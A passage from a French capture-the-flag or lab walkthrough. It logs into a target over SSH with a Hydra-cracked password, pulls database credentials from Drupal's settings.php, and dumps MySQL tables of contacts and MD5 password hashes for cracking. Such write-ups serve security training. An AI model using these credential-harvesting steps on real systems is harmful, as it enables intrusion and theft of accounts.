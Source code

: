 Hydra a trouvé le password *dolphins* pour l'utilisatrice *amy*.  

```plain
$ ssh amy@192.168.1.69
amy@192.168.1.69's password: 
[amy@localhost ~]$ history
    1  su patrick
    2  su jennifer
    3  su andy
    4  su loren
    5  exit
    6  history
[amy@localhost ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

Mot de passe : 
Sorry, user amy may not run sudo on localhost.
```

Bon, il ne faut pas fouiller de ce côté.  

Dans le fichier de configuration du *Drupal* (*/var/www/html/events/sites/default/settings.php*) on trouve un identifiant pour la base de données :  

```php
$db_url = 'mysql://root:mysqlpassword@localhost/drupal';
```

Une fois connecté à MySQL on trouve une base contacts :  

```plain
mysql> select * from contact;
+----+--------------------+--------------------------------+--------------+--------------------+
| id | name               | email                          | phone        | org                |
+----+--------------------+--------------------------------+--------------+--------------------+
|  1 | Patrick Fair       | patrick@localhost.localdomain  | 555.123.4567 | Phake Organization |
|  2 | Mr. Important User | important@localhost            | 555.123.4567 | Secret Org         |
|  3 | Jennifer Sea       | jennifer@localhost.localdomain | 555.123.4567 | Phake Organization |
|  4 | Andy Carp          | andy@localhost.localdomain     | 555.123.4567 | Phake Organization |
|  5 | Loren Felt         | loren@localhost.localdomain    | 555.123.4567 | Phake Organization |
|  6 | Amy Pendleton      | amy@localhost.localdomain      | 555.123.4567 | Phake Organization |
+----+--------------------+--------------------------------+--------------+--------------------+
```

Ainsi que la base *Drupal* sur laquelle se cache d'autres identifiants à casser :  

```plain
mysql> select uid,name,pass from users;
+-----+----------+----------------------------------+
| uid | name     | pass                             |
+-----+----------+----------------------------------+
|   0 |          |                                  |
|   1 | jennifer | e3f4150c722e6376d87cd4d43fef0bc5 |
|   2 | patrick  | 5f4dcc3b5aa765d61d8327deb882cf99 |
|   3 | andy     | b64406d23d480b88fe71755b96998a51 |
|   4 | loren    | 6c470dd4a0901d53f7ed677828b23cfd |
|   5 | amy      | e5f0f20b92f7022779015774e90ce917 |
+-----+----------+----------------------------------+
```
